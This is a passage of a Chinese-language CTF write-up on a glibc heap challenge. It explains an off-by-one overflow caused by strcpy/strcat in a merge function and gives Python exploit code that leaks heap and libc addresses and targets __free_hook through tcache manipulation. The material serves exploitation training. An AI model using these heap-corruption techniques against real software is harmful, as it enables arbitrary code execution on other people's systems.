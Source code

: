 会malloc一个新的chunk，大小等于两个chunk大小之和，然后通过c标准库的strcpy和strcat函数实现字符串拷贝与拼接。这里显然存在溢出漏洞，因为strcpy/strcat会拷贝到NULL字符，而堆块的内容都是通过read函数逐字节读入的，如果不录入换行符就会读到相应的size大小处。所以若不手工录入NULL字符，并且存在堆块结构复用（复用下一个堆块的prev_size位），那么在调用`merge`时可以溢出到下一个chunk的size字段（off-by-one）。

利用这一点我们可以构造overlapping，改大下一个chunk的size字段，再结合tcache的机制，实现任意地址分配和任意地址写。

## 利用

### leak libc

比赛时我写的比较麻烦，因为有一段时间没有做题了，并且对tcache的机制也不是太熟悉。思路还是传统的通过leak unsorted bin中指向libc中main_arena的地址实现，但是如果申请chunk的大小位于tcache范围内，首先需要填满对应的tcache数组，所以我用了7个块填充。实际上，直接构造两个大块，然后利用merge构造出大于0x400的chunk，再释放就可以直接放入unsorted bin中。

```python
# leak libc & heap addr

add(0x80, "a"*0x80)# 0
add(0x80, "a"*0x80)# 1
add(0x80, "a"*0x80)# 2
add(0x80, "a"*0x80)# 3
add(0x80, "a"*0x80)# 4
add(0x80, "a"*0x80)# 5
add(0x80, "a"*0x80)# 6

add(0x80, "b"*0x80)# 7
add(0x10, "c"*0x10)# 8
add(0x80, "b"*0x80)# 9
add(0x18, "c"*0x18)# 10

for i in range(7):
	dele(i) # kong 0~6

dele(7) # kong 7
dele(9) # kong 9

add(0x8,"e"*8) # 0
show(0)
heap_addr = u64(p.recv(6+8)[-6:].ljust(8, "\x00")) - 0x6f0
print "heap addr is " + hex(heap_addr)
add(0x60,"e"*0x60) # 1

add(0x8,"e"*8) # 2
show(2)
addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, "\x00"))
libc_addr = addr - 0x3ebd20
print "libc addr is " + hex(libc_addr)

one_gadget = libc_addr + 0x4f322
free_hook = libc_addr + libc.symbols['__free_hook']

add(0x60,"\x00" * 0x60) # 3
```
